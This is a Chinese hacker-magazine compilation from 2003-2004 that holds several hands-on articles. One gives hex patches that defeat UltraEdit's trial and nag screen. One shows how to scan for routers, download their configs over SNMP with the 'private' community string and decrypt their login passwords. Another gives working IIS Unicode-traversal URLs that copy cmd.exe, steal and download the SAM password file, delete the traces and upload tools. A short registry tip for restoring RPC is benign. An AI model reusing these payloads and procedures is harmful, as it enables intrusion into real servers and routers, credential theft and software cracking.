# 黑客X档案合订本2003-2004年（中）第二部分

---

## 神秘园

```assembly
:004AD10C 894514               mov dword ptr [ebp+14], eax

* Possible Reference to String Resource ID=00068: "UltraEdit 45 ) (蜻 J?!!L!" // 过期后出现对话框的标题栏
```

从偏移地址 004AD0E5 处的代码 `cmp eax, 0000002D` 可看出，软件会用你已使用过的天数与软件内定的 45 天试用期相比较，如果超过了试用期则出现过期提示注册的对话框。如果没有超出则继续执行，并判断是否人为修改过系统日期，如果没有修改过则跳转到 004AD08E 处执行程序，否则会出现一个试用期已满的对话框。

让 UltraEdit 不过期的修改方法：把偏移地址 004AD102 处的 `jne 004AD08E` 改为 `jmp 004AD08E`，使之无条件跳走。可直接用 WinHex 修改 UltraEdit 的主程序 Uedit32.exe，查找 `391D40DD5900758A`，找到后改为 `391D40DD5900EB8A`，就可让 UltraEdit 不过期。

去除 NAG 窗口：虽然按照上面说的修改后再不会过期，但每次启动 UltraEdit 都会出现一个对话框要你输入注册码（NAG 窗口），实在是讨厌。经分析发现，偏移地址 004AD0F7 那一行的代码 `call 0040B831` 会显示出此对话框，所以我们只要把它 NOP 掉即可。方法是：用 WinHex 打开 UltraEdit 的主程序 Uedit32.exe，查找 `E835E7F5FF`，找到后改为 `9090909090`。

好了，到这里我们就解决了所有问题。UltraEdit 综合了多种保护方式，对新手来说，带有一定的挑战性，破解这类软件时可获得更多的解密经验，提高自己的 Crack 水平。

## 利用 SolarWinds 获得路由器控制权

刘晖

大家好，相信大家都应该掌握了怎么扫描一般的服务器主机，并进一步的控制方法。服务器玩多了，就应该多学一些其它的设备，这就是服务器再上一层的设备：路由器。很多朋友都问怎么样才能扫描到路由器，其实网上也有图文的教程，但许多朋友都找不到。还有就是很多朋友都说不能 TFTP 路由的 CONFIG 配置文件，这里向大家介绍一下：

- LOOK 准备步骤
- 1、先安装 SolarWinds（2001 或 2002 版都可以）；
- 2、设置 SolarWinds 的属性；
- 3、扫描；
- 4、TFTP 配置文件；
- 5、获取密码；
- 6、登陆路由器。

首先我们安装好 SolarWinds 软件，依次打开“IP Network Browser”->“File”->“Configuration Wizard”->“Next”，把对话框里的 Public 去掉，如图 1 所示。



在 SolarWinds 主菜单里的 Cisco Tools 栏中选择 Download Config，在 Community String 框里输入：private（可写权限），如图 2 所示。



点击选择高级选项：Advanced Options，选择好本机 IP。

好，我们开始扫描 IP 段，打开 IP Network Browser，填入 IP 段，开始扫描，如图 3 所示。

如果 IP 段中有路由器会有图标表示，如图 4 所示，我们就可以通过 TFTP 下载路由的配置文件。





打开 Download Config，填入扫描到的路由器 IP，然后按 Copy Config From Router/Switch to PC 就可以下载了。下载完毕后，配置文件默认保存在 C 盘的 TFTP-Root 目录下，如图 5 所示。当然大家也可以自己另外建一个目录。



下载成功后，用 Config Editor/Viewer 来显示配置文件，可以看到我们需要的信息，如：Telnet 密码、特权密码等等，有些是明文的，有些是经过 MD5 加密的，还有路由器的协议配置状况等等。

在图 6 中，配置文件是经过一般加密，没有经过 MD5 加密的。我们可以通过工具 Router Password Decryption 来破解，如图 7 所示。







我们得到密码后，就可以进行登陆了，运行 CMD 或其它 Telnet 工具进行连接。

如图 8 所示，已经成功登陆路由器。

## 巧用注册表恢复 RPC 服务

摩尔定律

一日，我在某技术论坛看到一篇介绍 RPC 漏洞的文章，当时并没有注意看，因为我正在灌水。下线后，我打开 WIN2K 的“服务”项，把 RPC 和其它几个我自己认为危险的服务项关闭，并禁止了。当夜无事。第二天，我想看看那篇介绍 RPC 漏洞的文章，结果启动 WIN2K 时系统报错。我不慌不忙，启动完毕即进入系统日志查看，想不到居然已经记录了一大堆错误。我选了一个 Service Control Manager 文件，右键再点属性，过了 2 秒钟，系统没有反应。我以为自己手法不准，又点属性，还是没有反应。这下我可懵了，我又点击另外几个记录文件的属性，仍然没有反应，看来我的 WIN2K 出毛病了。

我想：是不是上次关闭的那几个服务项整出来的毛病？我打开“服务”，想把上次禁止了的那几个服务又重新启动，可是在这里也点击不出属性对话框。我急了，想上网发帖询问，可是拨号程序也消失了，估计又是哪几个服务项搞的鬼。我点击“开始”→“运行”，输入“cmd”，进入命令提示符，输入 `net help services`，试图用 `net start ***` 启动已被禁止的服务项目，可是失败了。我茫然不知所措，最后憋着一肚子气关了机。

后来我借了本 WIN2K 的书来看，才知道就是 RPC 服务搞的鬼。没有 RPC 服务就无法弹出属性框。我禁止了 RPC，当然不行了。我又回到 WIN2K 下，展开注册表，找到 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\`，翻看与 RPC 相似的子键，终于找到了一个“RpcSs”键。点击右边的“start”键，将键值“4”修改为“2”，如下图所示。

注：2 代表自动运行，3 代表手动运行，4 代表完全禁止。



关闭注册表，重启电脑。满以为这次 OK 了，结果进入 WIN2K 时又冒出一个提示窗口，提示我注册表空间不足（真奇怪，就改了一个字节……）。我进入控制面板，打开系统，单击“高级”选项卡上的“性能选项”，然后在“虚拟内存”下面单击“更改”。在“注册表大小”下的“注册表最大值（MB）”框中以兆字节为单位键入新的注册表大小，建议改为 32MB。

再次重启电脑，一切顺利，右键再点属性，久违的属性框又跳了出来，我成功了！

## 一个人的战争

## Unicode 漏洞的一些利用技巧

经常在各网络安全论坛上看见网友提出怎么利用扫描到的 Unicode 漏洞。其实 Unicode 漏洞是一个很老的漏洞了，但现在存在这种漏洞的服务器却还有不少。本着共同进步的愿望，写这篇文章是为了简单介绍一下本人利用 Unicode 漏洞的一些技巧和心得。高手看了莫见笑。:)

> **LOOK 注意**
>
> Unicode 漏洞的一些基础知识在这里我不介绍了，你可以去查看《黑客 X 档案》前几期的相关文章。在以下方法中我已经把 cmd.exe 复制到 `c:\inetpub\scripts` 目录下，并改名为 ypy.exe：

`http://ip/scripts/..%c1%c../winnt/system32/cmd.exe?/c+copy+c:\winnt\system32\cmd.exe+c:\inetpub\scripts\ypy.exe`

### 1. 下载 sam._ 用 LC4 暴力破解

道具：LC4

在浏览器地址栏输入：`http://ip/scripts/ypy.exe?/c+copy+c:\winnt\repair\sam._+c:\inetpub\wwwroot\`

解释：把 sam._ 文件拷贝到 wwwroot 目录下。

接着在地址栏输入：`http://ip/sam._`

解释：将 sam._ 文件下载到本地，如图 1 所示。



接下来是清除痕迹：

`http://ip/scripts/ypy.exe?/c+del+c:\inetpub\wwwroot\sam._`

好了，你可以用 LC4 去慢慢破解密码了，如果运气好的话，结果很快会出来的。介绍用 LC4 破解 sam 的文章网上很多，在这里我不赘述了。可别告诉我破解出了密码你还不知道怎么做哦。

### 2. IIS Cracker Pro

道具：IIS Cracker Pro、idq.dll

IIS Cracker Pro 是一款以资源管理器界面操作 IIS 服务器的工具，其最主要的好处就是免了我们在 IE 地址栏输入大量 Unicode 代码的麻烦。在这里我只简单介绍一下它的用法。如图 2 所示，是其主界面。



界面很简单，我们要做的只是把有 Unicode 漏洞的服务器 IP 和 Unicode 代码填入 IIS Cracker Pro 中，然后点击左上角的连接按钮，连接后，如图 3 所示。







看！远程目录管理器中显示的就是对方服务器 `c:\inetpub\scripts\` 目录下的文件，当然你可以很方便地切换目录。现在，你可以在服务器上查看、改写、创建、删除文件和文件夹、磁盘序列号/卷标，更改文件/文件夹属性，还可以用 IIS Cracker Pro 的快捷命令来输入命令执行。例如，你可以结合 tftpd32 来上载 idq.dll，如图 4 所示。

执行后刷新远程目录管理器，看见了吗？idq.dll 已经成功上载到服务器了，如图 5 所示。

上载了 idq.dll 有什么用？下面的方法中将讲到。同样，你可以用上载 idq.dll 的方法上载其它东西。我就讲到这里，以后怎么做就看你的了。

### 3. tftp 的运用

**道具：tftpd32.exe、ispc.exe、idq.dll**

